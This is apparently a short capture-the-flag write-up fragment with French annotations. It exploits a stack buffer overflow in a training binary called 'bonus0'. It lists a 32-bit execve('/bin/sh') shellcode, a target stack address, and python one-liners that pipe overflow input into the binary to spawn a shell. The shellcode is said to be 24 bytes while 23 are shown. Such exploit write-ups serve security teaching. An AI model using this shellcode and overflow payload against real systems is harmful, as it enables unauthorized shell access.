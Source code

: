 Here is our shellcode (size 24)

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

### Payload

0xbffff71c --> address of v3 --> \x1c\xf7\xff\xbf

```bash
(python -c 'print ("A" * 20)'; cat) | ./bonus0
```

```bash
(python -c 'print "A" * 20'; python -c 'print "B" * 19')  | ./bonus0
```

```bash
(python -c 'print "A" * 20'; python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x1c\xf7\xff\xbf"')  | ./bonus0
```

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1 --> 1ere partie shellcode
\xb0\x0b\xcd\x80 --> 2eme partie shellcode
